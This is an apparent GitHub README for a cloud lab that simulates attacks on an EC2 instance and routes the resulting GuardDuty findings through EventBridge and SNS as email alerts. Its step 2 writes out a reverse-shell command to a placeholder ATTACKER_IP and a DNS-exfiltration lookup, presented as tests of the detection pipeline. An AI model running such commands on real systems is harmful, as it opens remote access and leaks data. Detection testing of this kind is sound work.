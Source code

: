 ```markdown
# AWS GuardDuty Threat Detection Project

## Project Overview

This project demonstrates how to simulate and detect suspicious behavior on an EC2 instance using **Amazon GuardDuty**, and send real-time alerts to an email via **SNS (Simple Notification Service)**.

You will:
- Deploy an EC2 instance with simulated vulnerabilities
- Enable GuardDuty for threat detection
- Trigger test findings and real behavior (DNS exfiltration, reverse shell)
- Use EventBridge to forward GuardDuty alerts to SNS
- Receive alerts via email

---

## Architecture

```

\[EC2 Instance]
|
Simulated Threat
↓
\[GuardDuty]
↓
\[Amazon EventBridge Rule]
↓
\[Amazon SNS Topic]
↓
\[Email Notification]

````


## 🚀 Steps to Deploy

### 1. Launch EC2 Instance
- AMI: Amazon Linux 2 or 2023
- Instance Type: t2.micro
- Enable SSH and optionally HTTP/HTTPS in the Security Group
- Add this User Data (for Java setup):
```bash
#!/bin/bash
dnf install -y java-17-amazon-corretto
````

### 2. Simulate Threats on EC2

SSH into the instance and run:

```bash
# Simulate DNS exfiltration
dig $(uuidgen).yourdomain.com

# Simulate reverse shell (for test only)
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---

### 3. Enable GuardDuty

* Go to **Amazon GuardDuty** > Enable
* GuardDuty will begin monitoring for suspicious behavior

---

### 4. Create an SNS Topic

* Name: `GuardDutyAlerts`
* Subscribe your email (Confirm via email)

---

### 5. Setup EventBridge Rule

* Service: `aws.guardduty`
* Event type: `GuardDuty Finding`
* Target: SNS Topic `GuardDutyAlerts`

---

### 6. Generate Sample Findings (Optional)

```bash
aws guardduty list-detectors
aws guardduty create-sample-findings --detector-id <detector-id>
```

---

## 📧 Example Alert Email

You’ll receive an email like this when a finding occurs:

```json
{
  "source": "aws.guardduty",
  "detail-type": "GuardDuty Finding",
  "detail": {
    "type": "Recon:EC2/PortScan",
    "severity": 5,
    "resource": {
      "instanceDetails": {
        "instanceId": "i-xxxxxx"
      }
    }
  }
}
```

---

## 🧠 Learnings

* GuardDuty detects behavior, not vulnerabilities
* SNS + EventBridge is ideal for automated alerting
* Simulated attacks help test detection pipelines safely


## 🛡️ Security Note

> All simulations were conducted in a secure, isolated AWS environment with no real malware or external C2 communication. Never use real attacks in production accounts.

---

## 📚 References

* [AWS GuardDuty Documentation](https://docs.aws.amazon.com/guardduty/)
* [AWS SNS](https://docs.aws.amazon.com/sns/)
* [AWS CLI Guide](https://docs.aws.amazon.com/cli/)

---

## 👨‍💻 Author

**Md Khiruzzaman**
Cloud Engineering Intern
GitHub: [mkovy39](https://github.com/mkovy39)

```

---

Would you like me to generate the folder structure and shell scripts too (`ec2-userdata.sh`, etc.)?
```

